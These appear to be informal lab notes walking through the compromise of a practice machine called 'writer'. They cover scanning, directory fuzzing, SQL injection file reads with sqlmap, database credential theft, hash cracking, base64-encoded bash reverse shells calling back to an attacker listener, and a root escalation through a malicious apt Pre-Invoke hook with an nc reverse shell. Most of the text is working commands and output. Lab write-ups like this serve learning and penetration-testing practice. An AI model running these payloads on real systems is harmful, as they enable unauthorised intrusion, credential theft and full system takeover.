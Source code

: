 #Masscan:

Discovered open port 80/tcp on 10.10.11.101                                    
Discovered open port 139/tcp on 10.10.11.101                                   
Discovered open port 445/tcp on 10.10.11.101                                   
Discovered open port 22/tcp on 10.10.11.101

#Simple nmap scan:

22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds


#Directory Bruteforcing:


ffuf -u http://10.10.11.101/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 1062 -c
	
	administrative          [Status: 200, Size: 1443, Words: 185, Lines: 35]

/var/www/writer.htb/writer/__init__.py

/etc/apache2/sites-enabled/000-default.conf

Testing Sqlmap
sqlmap -r res.txt --file-read=/etc/apache2/sites-enabled/000-default.conf

we get an admin panel: 
lets try injections sql.

02_Spawning_TTY_Shell/////Rev_Shell
use the jpg shell and boom! we have a shell! change <ip> and <port>



/var/www/writer2_project/writerv2/settings.py

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.mysql',
        'OPTIONS': {
            'read_default_file': '/etc/mysql/my.cnf',

www-data@writer:/var/www/writer2_project/writerv2$ cat /etc/mysql/my.cnf

[client]
database = dev
user = djangouser
password = DjangoSuperPassword
default-character-set = utf8

First Upgrade Shell# 
python3 -c 'import pty;pty.spawn("/bin/bash")'

#connect to DB
mysql -u djangouser -P 3306 -p

select * from auth_user

pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=  | kyle   

hashcat -a0 -m 10000 kyle_hash  /usr/share/wordlists/rockyou.txt 

password:marcoantonio

kyle@writer:/home/john$ id 
uid=1000(kyle) gid=1000(kyle) groups=1000(kyle),997(filter),1002(smbgroup)

find / -group filter -type f 2>/dev/null
/etc/postfix/disclaimer

lets test smb
netstat -ant : port 25 smb
tcp        0      0 127.0.0.1:25            0.0.0.0:*               LISTEN 

lets use NATBypass Found in /opt DID NOT WORK*


copy this rev shell. for #.sh

echo L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIxNi8xMzMzNyAwPiYxJwo= |base64 -d| bash

imiditly after use port25_sendMailLocal.py found in ~/Desktop/scripts to catch a rev shell on port 13337

once we have a shell go to /home/john and get his .ssh 
cp it over chmod 600 and now you can ssh -i john_id john@writer.htb

after checking the groups i noticed management

john@writer:~$ find / -group management  2>/dev/null
/etc/apt/apt.conf.d

looking at gtfo bins 

https://www.hackingarticles.in/linux-for-pentester-apt-privilege-escalation/

found an article to get root access with atp 3 ways apperatly. 

echo 'apt::Update::Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc KALI_IP 1234 >/tmp/f”};’ > pwn


echo 'apt::Update::Pre-Invoke {"echo <bash-cShell>| base64 -d | bash"};'> pwn

echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjE2LzEzMzM3IDA+JjEiCg== | base64 -d | bash"};'> test

bob@kali:~/Desktop/Ethical_Hacking/writer$ nc -nlvp 13337
listening on [any] 13337 ...
connect to [10.10.14.216] from (UNKNOWN) [10.10.11.101] 38440
bash: cannot set terminal process group (48065): Inappropriate ioctl for device
bash: no job control in this shell
root@writer:/tmp# 


boom!!!!
	
	
![image](https://user-images.githubusercontent.com/129129988/228216947-7708b7e9-c905-49cc-a6e4-20c29438a654.png)
